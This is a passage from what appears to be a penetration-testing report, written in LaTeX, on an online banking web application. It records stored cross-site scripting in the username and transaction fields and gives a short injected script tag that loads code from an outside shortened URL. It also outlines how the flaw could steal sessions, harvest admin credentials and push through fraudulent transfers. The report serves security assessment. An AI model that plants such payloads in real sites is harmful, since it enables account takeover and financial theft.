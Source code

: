 \subsubsection*{Comparison}
Both applications allowed no reflected XSS.

\clearpage


\subsection{Testing for Stored Cross Site Scripting}

\subsubsection*{Online Banking}

\begin{tabular}{l|p{10cm}}
\textbf{Observation} & Stored XSS can be injected via the username when registering and into the purpose field when making transactions. The email used for registration, however, is checked for validity. User names can't be longer than 32 signs. This is just enough to inject something like "$<script src=//bit.ly/1MvAdrm>$". Users who register after this exploit has been used won't be shown, since the end tag is missing. For the transaction's description there is more space, but an account is needed. \\
\textbf{Discovery} & TODO\\
\textbf{Impact} & Using this it's possible to e.g. automatically accept payments of over 10000 as soon as an admin opens the "Approve Transfers" page. Given a user's TAN, it's also possible to transfer their money into one's own account by sending them a manipulated transaction. The manipulated transaction just has to include code that creates a transaction in the victim's name. Furthermore, it's possible to steal sessions or, by injecting fake login forms even credentials of admins. By injecting into the username, the attacker can also auto-accept themselves as real user as soon as an admin opens the "Approve Registrations" tab. \\
\textbf{Likelihood} & High \\
\textbf{Access Vector} & Network \\
\textbf{Access Complexity} & Low\\
\textbf{Privileges Required} & N/L: None for the registration XSS, Low user priviledges for XSS in transactions\\
\textbf{User Interaction} & Yes \\
\textbf{Scope} & Unchanged \\
\textbf{Confidentiality} & High \\
\textbf{Intigrity} & High\\
\textbf{Availability} & Low \\
\end{tabular}

